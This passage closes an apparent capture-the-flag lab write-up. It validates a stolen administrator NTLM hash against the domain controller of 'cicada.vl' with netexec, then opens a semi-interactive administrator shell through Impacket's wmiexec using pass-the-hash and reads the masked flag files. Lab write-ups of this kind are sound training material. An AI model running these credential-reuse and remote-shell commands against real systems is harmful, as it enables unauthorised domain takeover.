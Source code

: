 The hash is valid:

```

oxdf@hacky$ netexec smb dc-jpq225.cicada.vl -u administrator -H 85a0da53871a9d56b6cd05deda3a5e87 -k
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [*]  x64 (name:dc-jpq225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [+] cicada.vl\administrator:85a0da53871a9d56b6cd05deda3a5e87 (Pwn3d!)

```

### Shell

A quick way to get a shell from here is `wmiexec`:

```

oxdf@hacky$ wmiexec.py cicada.vl/administrator@dc-jpq225.cicada.vl -k -hashes :85a0da53871a9d56b6cd05deda3a5e87
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] SMBv3.0 dialect used
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
cicada\administrator

```

And grab the flags:

```

C:\users\administrator\desktop>type user.txt
c6a8fc2e************************
C:\users\administrator\desktop>type root.txt
65d0019f************************

```